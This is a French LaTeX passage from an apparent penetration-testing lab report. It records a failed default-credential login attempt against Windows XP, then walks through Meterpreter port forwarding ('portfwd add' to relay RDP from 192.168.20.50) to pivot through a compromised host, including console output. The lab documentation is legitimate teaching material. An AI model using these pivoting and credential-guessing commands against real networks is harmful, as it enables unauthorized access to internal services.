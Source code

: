 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
	
	❌ \textbf{Échec :} Aucun des identifiants testés (admin, password, 123456, "") ne fonctionne.
	
	\textbf{Conclusion :} Windows XP est correctement sécurisé (pas de mot de passe par défaut, patches appliqués).
	
	
	\subsection{Configuration de Tunnels (Port Forwarding)}
	
	En l'absence d'exploitation directe réussie, nous démontrons une technique avancée de post-exploitation : le \textbf{port forwarding} (redirection de ports).
	
	\subsubsection{Principe du transfert de ports}
	
	Le transfert de ports via Meterpreter permet d'exposer un service réseau interne (accessible uniquement depuis le pivot) sur la machine attaquante locale. Cela transforme le système compromis en \textit{proxy inverse}.
	
	\textbf{Architecture :}
	\begin{verbatim}
		Attaquant:3389  <--->  Meterpreter  <--->  192.168.20.50:3389 (RDP)
		(Local)                 (Pivot)             (Distant)
	\end{verbatim}
	
	\subsubsection{Configuration du Tunnel RDP}
	
	\begin{lstlisting}[caption=Création du Port Forward]
		[msf](Jobs:0 Agents:1) >> sessions -i 2
		[*] Starting interaction with 2...
		
		(Meterpreter 2)(/tmp) > portfwd add -l 3389 -p 3389 -r 192.168.20.50
		[*] Forward TCP relay created: (local) :3389 -> (remote) 192.168.20.50:3389
		
		(Meterpreter 2)(/tmp) > portfwd list
		
		Active Port Forwards
		====================
		
		Index  Local         Remote              Direction
		-----  -----         ------              ---------
		1      0.0.0.0:3389  192.168.20.50:3389  Forward
		
		1 total active port forwards.
	\end{lstlisting}
	
\end{document}
